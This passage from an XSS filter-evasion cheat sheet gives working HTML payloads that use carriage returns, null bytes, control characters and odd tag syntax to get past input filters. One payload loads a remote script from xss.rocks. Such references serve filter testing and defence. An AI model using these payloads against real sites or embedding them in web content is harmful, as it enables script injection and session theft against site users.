 ## Embedded Carriage Return to Break-up XSS

(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

```html
<img src="jav&#x0D;ascript:alert('XSS');" />
```

## Null breaks up JavaScript Directive

Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char `%00` is much more useful and helped me bypass certain real world filters with a variation on this example:

```html
`perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out`
```

## Spaces and Meta Chars Before the JavaScript in Images for XSS

This is useful if the pattern match doesn't take into account spaces in the word `javascript:` -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the `javascript:` keyword. The actual reality is you can have any char from 1-32 in decimal:

```html
<img src=" &#14;  javascript:alert('XSS');" />
```

## Non-alpha-non-digit XSS

The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:

```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc...) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```
